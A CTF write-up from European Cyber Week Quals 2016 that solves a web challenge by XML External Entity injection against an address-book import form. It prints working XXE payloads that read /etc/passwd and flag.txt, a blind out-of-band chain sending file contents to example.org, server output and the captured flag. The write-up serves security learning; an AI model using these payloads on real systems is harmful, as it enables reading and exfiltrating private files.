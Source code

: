 ```yaml
---
layout: post
title: "ECW - 150 - Carnet d'adresses - Web"
lang: en
categories:
  - security
  - writeups
tags:
  - security
  - writeups
  - ctf
  - web
date: 2016/11/06
thumbnail: /images/security-265130_640.jpg
---
```

## Informations

### Version

| By    | Version | Comment
| ---   | ---     | ---
| noraj | 1.0     | Creation

### CTF

- **Name** : European Cyber Week CTF Quals 2016
- **Website** : [challenge-ecw.fr](https://challenge-ecw.fr/)
- **Type** : Online
- **Format** : Jeopardy - Student

### Description

N.A.

## Solution

This one is a XML External Entity ([XXE][xxe]) attack and Out-Of-Band (OOB) channel exfiltration is not working.

[xxe](https://www.gracefulsecurity.com/xml-external-entity-injection-xxe-vulnerabilities/)

We are given the following form:

```xml
<contacts>
  <contact>
    <name>Jean Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue CTF</adress>
    <zipcode>42000</zipcode>
    <city>ECW</city>
  </contact>
  <contact>
    <name>Jack Dupont</name>
    <phone>01 02 03 04 05</phone>
  </contact>
</contacts>
```

And the following answer confirming the well formated XML request:

```
Création du fichier ./MNfloDfo.xml

Import du fichier :

    Importation de 'Jean Dupont' dans le carnet d'adresses
    Importation de 'Jack Dupont' dans le carnet d'adresses

Suppression du fichier ./MNfloDfo.xml
```

We should be able to leak data into the answer banner.

Confirmation that entities are interpreted:

```xml
<!DOCTYPE contacts
[<!ENTITY xxe "XXE vuln">]>
<contacts>
  <contact>
    <name>&xxe;t</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue CTF</adress>
    <zipcode>42000</zipcode>
    <city>ECW</city>
  </contact>
  <contact>
    <name>Jack Dupont</name>
    <phone>01 02 03 04 05</phone>
  </contact>
</contacts>
```

```
Création du fichier ./J2tuDR8g.xml

Import du fichier :

    Importation de 'XXE vulnt' dans le carnet d'adresses
    Importation de 'Jack Dupont' dans le carnet d'adresses

Suppression du fichier ./J2tuDR8g.xml
```

Nice that's working so try to leak some files:

```xml
<!DOCTYPE contacts
[<!ENTITY xxe SYSTEM "http://example.org/test">]>
```

=> doesn't work

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
```

=> doesn't work

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini" >]>
```

=> doesn't work

[...] and we tried a lot of logical filename on various operating systems.

But how did we find out the right? The challenge required no logic but only guessing ...

I firstly thought the banner was useless because no file was leaked in it. So I thought it was some blind xxe:

```
<!DOCTYPE contacts [ <!ENTITY % pe SYSTEM "http://example.org/xxe_file"> %pe; %param1; ]>
<contacts>
  <contact>
    <name>&external;</name>
    [...]
```

`xxe_file`:

```
<!ENTITY % payload SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY external SYSTEM 'http://example.org/log_xxe?data=%payload;'>">
```

And a tried a lot...

But no, in fact no files were leakable exept `flag.txt`. It was impossible to find out it was just guessing because rules and description didn't mention any convention.

I passed hours on days to craft sophishticated blind xxe requests and it was only a very easy xxe but filename had to be guessed, it was easy to think that xxe was not working as others files was not leaked.

Realistic challenge should have be better.

But indeed some people find it realy easily as `flag.txt` can be common in CTF.

I insist on the fact that's is only CTF guessing, in real life this never occurs.

Here was the easy XXE :

```xml
<!DOCTYPE contacts
[<!ENTITY xxe SYSTEM "flag.txt">]>
<contacts>
  <contact>
    <name>&xxe;</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue CTF</adress>
    <zipcode>42000</zipcode>
    <city>ECW</city>
  </contact>
  <contact>
    <name>Jack Dupont</name>
    <phone>01 02 03 04 05</phone>
  </contact>
</contacts>
```

```
Création du fichier ./WDpFYEM5.xml

Import du fichier :

    Importation de 'ECW{8dd72b9b3095380de595d734492d69c9} ' dans le carnet d'adresses
    Importation de 'Jack Dupont' dans le carnet d'adresses

Suppression du fichier ./WDpFYEM5.xml
```
